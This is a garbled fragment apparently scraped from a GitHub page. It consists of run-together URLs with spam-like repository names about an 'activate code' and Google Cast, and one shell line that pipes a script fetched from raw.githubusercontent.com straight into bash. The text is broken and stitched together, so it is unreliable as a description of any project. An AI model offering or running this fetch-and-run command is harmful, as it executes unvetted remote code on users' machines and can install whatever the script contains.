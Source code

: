 https://github.com/googlecasthttps://github.com/https-githb-com-warrior-organisationhttps://github.com/https-githb-com-warrior-organisation/https-smnconnect.world-live-activate-code-SMN-MNTZAR-090078601-QT2025https://github.com/https-githb-com-warrior-organisation/https-smnconnect.world-live-activate-code-SMN-MNTZAR-090078601-QT2025/discussions/1# https-godoc.org-cloud.google.com-go-firestore.
https://github.com/Google cast bash <(curl -s https://raw.githubusercontent.com/kfhunter1/SMN_CONTENT/main/auto_setup.sh)https://raw.githubusercontent.com/kfhunter1/SMN_CONTENT/main/auto_setup.sh)